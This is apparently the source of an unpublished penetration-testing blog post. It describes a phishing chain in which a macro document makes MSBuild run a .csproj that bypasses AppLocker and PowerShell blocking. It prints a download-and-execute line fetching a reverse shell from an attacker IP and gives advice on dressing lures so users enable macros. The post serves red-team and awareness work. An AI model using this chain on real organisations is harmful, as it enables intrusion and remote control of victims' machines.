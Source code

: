 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: false
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and user awareness training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C# and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

Within this the second stage is executed (PowerShell 3.0+ download cradle):

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

Shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

In order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert (@JohnLaTwC) regularly shares interesting phishing lures and payloads, if you need inspiration for simulated phishing campaigns ;) . I find the "Document created in newer/older Office version" lures especially convincing. John has put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

FailedDeliveryNotification.docx:



Now that our "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, the powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner.

![rules]({{ site.url }}/images/shell.png){: .center-image }

This payload is also an effective means of bypassing PowerShell Contrained Language mode.

Improvements
Mitigations



